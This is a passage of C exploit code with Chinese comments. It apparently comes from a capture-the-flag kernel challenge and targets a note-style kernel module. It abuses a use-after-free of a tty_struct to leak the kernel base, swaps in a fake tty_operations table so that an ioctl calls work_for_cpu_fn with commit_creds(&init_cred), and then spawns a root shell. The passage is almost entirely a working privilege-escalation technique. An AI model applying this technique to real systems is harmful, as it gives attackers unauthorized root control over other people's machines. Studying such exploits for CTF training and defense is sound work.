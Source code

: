 ```c

    // 检查魔数是否为0x5401
    if(*(int*)origin_tty_struct != 0x5401){
        error("The magic value of tty is 0x%llx != 0x5401.", (size_t)*(int*)origin_tty_struct);
        exit(0);
    }

    success("Tty alloc done. Making UAF successed.");
    
    // 通过检查tty_operation的值来泄露内核偏移
    tty_operation_value = origin_tty_struct[3];
    if((tty_operation_value & 0xfff) == (PTM_UNIX98_OPS & 0xfff)){
        kernel_offset = tty_operation_value - PTM_UNIX98_OPS;
    }else if((tty_operation_value & 0xfff) == (PTY_UNIX98_OPS & 0xfff)){
        kernel_offset = tty_operation_value - PTY_UNIX98_OPS;
    }else{
        error("The magic value of tty_operation is 0x%llx, not ptm or pty.", tty_operation_value);
        exit(0);
    }

    success("The kernel offset is 0x%llx.", kernel_offset);

    // 设置tty_operation的ioctl函数为work_for_cpu_fn
    // 会导致执行ioctl时执行tty_struct[4](tty_struct[5])
    fake_tty_operation[12] = WORK_FOR_CPU_FN + kernel_offset;

    // 由于fake_tty_operations现在位于用户态，我们将其内容写到内核态才行(smap)
    note_add(1, 0x60, "ltfall_ltfall");
    note_edit(1, 0x2e0, "ltfall_ltfall");
    note_write(1, fake_tty_operation);

    // 通过gift读出note堆块地址，我们刚刚已经将fake_tty_operation写到堆块1上
    size_t note_addr[0x10] = {0, };
    gift(note_addr);

    // note_addr[2] 就是fake_tty_operation。
    fake_tty_struct[3] = note_addr[2];
    // 设置好work_for_cpu_fn函数的参数
    fake_tty_struct[4] = COMMIT_CREDS + kernel_offset;
    fake_tty_struct[5] = INIT_CRED + kernel_offset;
    
    // 将fake_tty_struct写回tty_struct
    info("Writing fake tty_struct to tty_struct...");
    note_write(0, fake_tty_struct);

    // 通过ioctl触发work_for_cpu_fn触发commit_creds(&init_cred);
    info("Triger work_for_cpu_fn by ioctl...");
    ioctl(tty_fd, 233, 233);

    // 已经执行了commit_creds(&init_cred);提权
    // 修复tty_struct防止u报错
    info("Repairing the tty_struct...");
    note_write(0, origin_tty_struct);
    
    // 用户态起一个shell，撒花~
    get_root_shell();
    return 0;
}
```
